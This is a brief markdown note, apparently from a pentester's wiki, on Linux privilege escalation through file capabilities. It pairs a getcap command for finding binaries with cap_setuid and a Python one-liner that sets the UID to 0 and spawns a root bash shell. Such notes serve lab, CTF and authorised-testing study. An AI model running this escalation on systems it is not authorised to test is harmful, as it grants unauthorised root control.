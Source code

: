 ***Detection***
This [[Linux Privilege Escalation]] technique taking advantage of the capabilities functionality.
- In command prompt type: 
```
   getcap -r / 2>/dev/null
```

- From the output, notice the value of the “cap_setuid” capability.

***Exploitation***
- In command prompt type:
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
- Enjoy root!